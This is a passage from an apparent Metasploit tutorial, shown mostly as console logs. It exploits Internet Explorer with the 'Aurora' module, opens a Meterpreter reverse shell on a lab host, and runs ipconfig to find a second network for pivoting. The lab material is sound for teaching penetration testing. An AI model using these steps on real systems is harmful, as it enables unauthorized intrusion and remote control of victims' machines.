 ```bash
> Started reverse handler on 192.168.1.101:4444
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
> Local IP: <a href="http://192.168.1.101:8080/">http://192.168.1.101:8080/</a>
> Server started.
msf exploit(ms10_002_aurora) >
```

You can see the new session opened with the `sessions -l` command. In the list below, it is seen that a connection is established from our own IP address `LHOST: 192.168.1.101` to the other target computer `RHOST:192.168.1.201`.

```bash
msf exploit(ms10_002_aurora) >
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.201
> Sending stage (749056 bytes) to 192.168.1.201
> Meterpreter session 1 opened (192.168.1.101:4444 -> 192.168.1.201:8777) at Mon Dec 06 08:22:29 -0700 2010

msf exploit(ms10_002_aurora) > sessions -l

active sessions
**===============**

 Id Type Information Connection
 -- ---- ----------- ----------
 1 meterpreter x86/win32 XEN-XP-SP2-BARE\Administrator @ XEN-XP-SP2-BARE 192.168.1.101:4444 -> 192.168.1.201:8777

msf exploit(ms10_002_aurora) >
```

## 1.Computer Network Cards

Now let's enter this session and look at the network settings of the target computer with the `ipconfig` command.

```bash
msf exploit(ms10_002_aurora) > sessions -i 1
> Starting interaction with 1...

meterpreter > ipconfig

Citrix XenServer PV Ethernet Adapter #2 - Packet Scheduler Miniport
Hardware MAC: d2:d6:70:fa:de:65
IP Address: 10.1.13.3
Netmask: 255.255.255.0

MS TCP Loopback interface
Hardware MAC: 00:00:00:00:00:00
IP Address: 127.0.0.1
Netmask: 255.0.0.0

Citrix XenServer PV Ethernet Adapter - Packet Scheduler Miniport
Hardware MAC: c6:ce:4e:d9:c9:6e
IP Address: 192.168.1.201
Netmask: 255.255.255.0
meterpreter >
```
